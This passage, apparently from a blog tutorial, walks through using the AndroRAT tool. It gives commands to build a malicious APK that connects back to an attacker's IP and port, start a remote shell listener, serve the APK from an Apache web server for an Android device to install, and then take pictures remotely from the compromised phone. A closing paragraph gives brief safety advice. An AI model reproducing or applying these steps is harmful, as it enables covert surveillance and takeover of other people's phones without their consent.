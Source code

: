 Download any other androRAT dependencies by enter
: pip install -r requirements.txt
Now lets create a malicious APK file: python3 androRAT.py — build -i 192.168.43.153 -p 4444 -o hackerloi.
apk Note! use the ip address of the machine you are using. 
5. Go ahead and host the listener by entering: python3 androRAT.py — shell -i 0.0.0.0 -p 4444   6. 
Go to another terminal and run application server: sudo systemctl start apache2.service This will help start up the apache so that we can host the file on your local network  
7. On another terminal, copy the file to web application server directory: sudo cp hackerloi.apk /var/www/html/ 
8. Go to any android device on your network and download the app. Do this by entering the following on its browser: 192.168.43.153/hackerloi.apk Note: use the ip of your machine. After downloading, install the app, click open and then click continue.
9. Game over! You are in the android device. Enter help command to see what you can do with the privilege you have. Example: takepic 0 this will take a picture and download it to your computer.   Advice to stay safe from this attack Never install anything from untrusted website (Golden rule). Avoid using third-party stores, only use Google PlayStore. Never visit websites that have various pop-up and malicious ads. Install an active internet security suite that scans the URL before you can open it on your phone.
